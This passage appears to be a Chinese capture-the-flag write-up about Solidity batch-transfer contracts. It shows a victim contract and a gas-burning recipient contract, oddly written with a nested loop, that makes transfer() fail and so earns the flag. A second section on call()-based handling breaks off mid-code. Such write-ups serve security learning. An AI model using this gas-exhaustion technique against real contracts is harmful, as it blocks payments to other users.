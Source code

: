 转账合约

```solidity
contract BatchTransfer {
    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            recipients[i].transfer(amounts[i]);
        }
    }
}
```

然后我们要让这个合约失败，于是我们写一个合约，让它消耗掉所有的gas。

```solidity
contract BatchTransfer {
    function approve(address payable recipient, uint256 amount) external payable {
        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < (1 << 128); i++) {
            for (i = 0; i < (1 << 128); i++) {
                totalAmount += amount;
            }
            totalAmount += amount;
        }
    }
}
```

运行它的compile，然后把bytecode给对面，然后就能拿到flag了。

### 转账又失败

这一次多加了个call, 查资料发现这个是处理转账失败的，于是我们要让这个call失败。

```solidity
contract BatchTransfer {
    mapping(address => uint256) public pendingWithdrawals;

    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            (bool success, ) = recipients[i].call{value: amounts[i]}("");
```